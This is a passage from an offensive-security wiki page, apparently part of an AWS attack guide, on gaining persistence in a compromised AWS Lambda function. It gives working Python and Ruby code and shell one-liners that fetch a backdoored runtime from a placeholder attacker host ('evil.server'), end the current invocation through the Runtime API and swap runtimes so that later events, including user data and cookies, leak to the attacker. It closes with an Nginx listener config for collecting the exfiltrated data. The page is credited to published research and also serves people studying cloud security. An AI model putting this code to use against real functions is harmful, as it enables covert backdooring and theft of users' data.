



<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [Gaining Persistency on Vulnerable Lambdas](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/) by [Yuval Avrahami](https://twitter.com/yuval_avrahami)

-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    [Revisiting Lambda Persistence](https://frichetten.com/blog/revisiting_lambda_persistence/)
</div>

!!! Warning
    Depending on the specific runtime and tools available, you will likely have to change the approach taken to gain persistence in a Lambda function. The general concepts should serve as a guide for a more specific attack you develop.

After finding a remote code execution vulnerability in a Lambda function, you'll probably want to establish persistence. The steps to do this will depend on the specific runtime that is being used by the Lambda function. Below the Python and Ruby runtimes are used as an example.

!!! Note
    See the "Creating a Listener" section at the bottom of this page for how to setup a listener for exfiltrated data.

## Python Runtime

After identifying that your target is using the Python runtime, you'll need a copy of the `/var/runtime/bootstrap.py` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you'll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  { loading=lazy }
</figure>

!!! Note
    You can customize what the backdoor does, depending on what you're looking to do. Maybe you want to leak a specific user's data. Maybe you just want Cookies. It's up to you!

With the `bootstrap.py` file backdoored, you'll want to host it in a location that is accessible for the Lambda function to pull down. 

The next step is creating a one-liner to pull down this modified code, as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` py
import urllib3
import os
http = urllib3.PoolManager()

# Writing the new bootstrap to a file
r = http.request('GET', 'https://evil.server/bootstrap.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

# Getting the current request ID
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']

# End the current event
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

# Swap the runtimes
os.system('python3 /tmp/bootstrap.py')
```

Or as a long one-liner (don't forget to change the hostname):

```
python3 -c "import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://evil.server/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')"
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become "cold" and you will lose access to the persistence you've established. You can execute the function again to keep it "warm" or you can simply reestablish persistence.

## Ruby Runtime

After identifying that your target is using the Python runtime, you’ll need a copy of the `/var/runtime/lib/runtime.rb` file. You can get this by either creating your own Lambda function and copying it, or by leaking it from the target Lambda function.

Next, you’ll want to modify this runtime with some logic to backdoor it. This can be simply done with a few lines such as the following:

<figure markdown>
  { loading=lazy }
</figure>

<figure markdown>
  { loading=lazy }
</figure>

With the `runtime.rb` file backdoored, you’ll want to host it in a location that is accessible for the Lambda function to pull down. Note, you'll likely want to rename it to something like `run.rb`. This is because you'll want to create a symbolic link between everything in `/var/runtime/lib` to `/tmp`. This will ensure your modified `runtime.rb` file can access all the additional libraries it needs.

The next step is creating a one-liner to create those symbolic links, pull down this modified code, and execute it as well as to terminate the current event in the [Runtime API](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html). This can be done by posting to a specific endpoint with the current request ID. All together, that code should look something like this:

``` ruby
require 'net/http'

# Writing the new runtime to a file
uri = URI('https://evil.server/run.rb')
r = Net::HTTP.get_response(uri)
File.write('/tmp/run.rb', r.body)

# Getting the current request ID
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
r = Net::HTTP.get_response(uri)
rid = r.header['Lambda-Runtime-Aws-Request-Id']

# End the current request
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response')
Net::HTTP.post(uri, 'null')
```

Or as a long one-liner (don’t forget to change the hostname, create the symbolic links, or execute the code in the background):

```
ln -s /var/runtime/lib/* /tmp && ruby -e "require 'net/http';uri = URI('https://evil.server/run.rb');r = Net::HTTP.get_response(uri);File.write('/tmp/run.rb', r.body);uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');r = Net::HTTP.get_response(uri);rid = r.header['Lambda-Runtime-Aws-Request-Id'];uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+rid+'/response');Net::HTTP.post(uri, 'null')" && ruby /tmp/run.rb &
```

From here on, all subsequent events should be leaked to the attacker. Remember that if the Lambda function is not used for 5-15 minutes, it will become “cold” and you will lose access to the persistence you’ve established. You can execute the function again to keep it “warm” or you can simply reestablish persistence.

## Creating a Listener

How you receive leaked events is up to you. The author found that the simplest way was via post requests to an Nginx server. The configuration was simple. First, outside of the server block, include a line like `log_format postdata $request_body`.

Next, include the following inside the server block:

```
location = /post {
    access_log /var/log/nginx/postdata.log postdata;
    proxy_pass http://127.0.0.1/post_extra;
}
location = /post_extra {
    access_log off;
    return 200;
}
```

After restarting Nginx, all logs received via post requests should be stored in `/var/log/nginx/postdata.log`.